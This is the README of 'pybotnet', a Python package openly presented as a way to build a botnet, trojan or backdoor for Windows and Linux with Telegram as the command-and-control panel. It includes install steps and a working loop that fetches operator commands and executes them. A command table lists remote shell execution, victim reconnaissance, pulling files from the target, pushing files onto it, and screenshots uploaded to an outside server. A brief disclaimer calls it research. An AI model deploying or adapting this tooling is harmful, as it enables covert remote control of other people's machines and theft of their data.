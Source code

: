  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://i.postimg.cc/WFSTSLnW/trojan.png' border='0' alt='pybotnet icon'/></a>  <h1    align="center">pybotnet</h1>
  <p align="center"> A Python module for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>


  <p align="center">
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python3-red.svg" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf.
> See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me 💕 \
[Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system
* import file from target system 
* get screenshot

for more, see commands table end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.



COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB)| 0.17.0 | linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 | linux |


>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


